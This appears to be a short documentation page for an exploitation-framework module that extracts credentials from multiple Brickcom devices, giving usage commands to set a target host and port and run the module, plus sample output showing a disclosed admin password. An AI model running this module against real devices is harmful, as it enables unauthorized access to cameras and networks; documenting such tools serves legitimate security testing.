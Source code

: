 ## Description

Brickcom multiple devices credentials disclosure.

## Usage

* `use exploit/linux/brickcom/multi_credentials_disclosure`
* `set host <host>`
* `set port <port>`
* `run`

```
Credentials:

    Username    Password
    --------    --------
    admin       $tr0ng@sH3ll

[+] Exploit module completed!
```
